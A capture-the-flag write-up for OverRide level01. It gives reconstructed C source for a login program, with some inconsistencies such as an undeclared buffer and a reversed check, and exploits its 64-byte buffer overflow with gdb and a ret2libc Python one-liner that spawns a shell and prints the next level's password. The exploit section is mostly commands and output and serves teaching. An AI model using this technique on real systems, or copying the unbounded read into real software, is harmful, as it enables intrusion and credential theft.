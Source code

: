 # Level 01

<h3>source.c</h3>

```console
char a_user_name[100];

int verify_user_name(void) {
    puts("verifying username....\n");
    return strncmp(a_user_name, "dat_wil", 7);
}

int verify_user_pass(char *pass) {
    return strncmp(pass, "admin", 5);
}

int main() {
  char    pass[64] = { };
  int     check = 0;

  memset(str, 0, 64);
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(a_user_name, 256, stdin);
  check = verify_user_name();
  if (check != 0) {
    puts("nope, incorrect username...\n");
    return (1);
  }
  puts("Enter Password: ");
  fgets(pass, 100, stdin);
  check = verify_user_pass(pass);
  if (check == 0) {
    puts("nope, incorrect password...\n");
    return (1);
  }
  if (check == 0)
    return (0);
}
```

<h3>Analysis</h3>

Base on the program, we will be expecting to input an `username` and `password`, we can see that the `username` shoule be equal to `dat_wil` and `password` is `admin`

However, even if we have both of them correct, the end program will not give us any shell. We could spawn a shell by using`ret2libc` exploit

There is no vulnerable function here that we can exploit, but we can see that the `pass` only have `64 bytes` buffer, while the `fgets()` are reading up to `100 bytes`

This give us and extra `36 bytes` that we can try to use to overflow and overwrite the return address

<h3>Exploit</h3>

First we need to find the offset on where we could overwrite the return address

```console
(gdb) r

Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUU
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

We can see that with offset `80` we could overwrite the return address

Next we need to find the address `system()` and `"/bin/sh` from the `libc`

```console
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find 0xf7e2c000, +0x1a0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Now will be the time to test our exploit

```console
level01@OverRide:~$ (python -c "print 'dat_wil\n' + 'a' * 80 + '\xd0\xae\xe6\xf7' + 'bbbb' + '\xec\x97\xf8\xf7'"; cat - ) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
